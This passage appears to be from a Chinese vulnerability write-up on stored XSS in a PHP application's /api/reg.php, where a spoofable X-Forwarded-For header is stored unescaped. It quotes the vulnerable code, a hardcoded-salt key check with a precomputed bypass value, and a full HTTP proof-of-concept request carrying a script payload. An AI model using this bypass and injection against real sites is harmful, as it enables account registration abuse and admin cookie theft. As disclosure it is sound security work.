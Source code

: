 ## 0x02 前台存储型 XSS

**在 /api/reg.php 中，判断注册 ip 的逻辑存在缺陷，可直接使用 X-Forwarded-For 自定 IP，使用 XSS 可导致管理员 Cookie 被盗取等危害。**

```plain
if ($HTTP_SERVER_VARS["HTTP_X_FORWARDED_FOR"]) {
    $ip = $HTTP_SERVER_VARS["HTTP_X_FORWARDED_FOR"];
} elseif ($HTTP_SERVER_VARS["HTTP_CLIENT_IP"]) {
    $ip = $HTTP_SERVER_VARS["HTTP_CLIENT_IP"];
} elseif ($HTTP_SERVER_VARS["REMOTE_ADDR"]) {
    $ip = $HTTP_SERVER_VARS["REMOTE_ADDR"];
} elseif (getenv("HTTP_X_FORWARDED_FOR")) {
    $ip = getenv("HTTP_X_FORWARDED_FOR");
} elseif (getenv("HTTP_CLIENT_IP")) {
    $ip = getenv("HTTP_CLIENT_IP");
} elseif (getenv("REMOTE_ADDR")) {
    $ip = getenv("REMOTE_ADDR");
} else {
    $ip = "Unknown";
}
```

**注册还需要 allkey 密钥，看了一眼 allkey 的验证逻辑：**

```plain
if ($allkey == "") {
    exit("请传入秘钥");
}
session_start();
$cloudallkey = $_SESSION["allkey"];
$appintkey = md5(md5($_SERVER["HTTP_HOST"] . "fC4gT5uU2pW7kU8eL8dI4nK5xE9uT6iW"));
if ($allkey != $cloudallkey) {
    if ($allkey == $appintkey) {
    } else {
        exit("秘钥错误");
    }
}
```

**实际传入 allkey=1a8eed4f3e05c811c6b1c5550102e86f 即可实现注册  
Payload:**

```plain
POST /api/reg.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 100
Content-Type: application/x-www-form-urlencoded
Cookie: deviceid=1708223329907; rockkefu_deviceid=1708240409582; BJYADMIN=7ovdcsf3httsj0r6fbu10mk7l2; adminToken=a66abb5684c45962d887564f08346e8d; userName=test; userToken=05a671c66aefea124cc08b76ea6d30bb; dark_theme=root; PHPSESSID=5s1ppgucs5raqrlnuqisgrjdht
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/setup.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
X-Forwarded-For: <script>alert(1234)</script>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
```
